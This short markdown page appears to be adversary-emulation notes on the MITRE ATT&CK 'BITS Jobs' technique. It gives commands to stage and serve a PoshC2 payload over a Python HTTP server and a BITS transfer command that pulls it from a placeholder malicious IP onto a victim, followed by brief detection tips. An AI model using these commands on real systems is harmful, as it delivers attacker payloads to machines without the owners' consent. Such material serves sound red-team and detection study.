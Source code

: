 # [BITS Jobs](https://attack.mitre.org/techniques/T1197/)

## Exploit Syntax: 

1. In Parrot terminal run the following commands
    ```sh
    mkdir /home/<user>/Desktop/Lincoler
    cd /home/<user>/Desktop/Lincoler
    cp /var/poshc2/<project name>/payloads/<payload name> Abrodolph.exe
    python3 -m http.server 12137
    ```

2.  In posh, run
    ```sh
    sharpps start-bitstransfer -source http://<malicious ip address>:12137/Abrodolph.exe -destination <victim save location>
    ```

---
## Detection Method
* Monitor for new BITS tasks being created
* Monitor network activity generated by BITS over HTTP(S)
## Resources    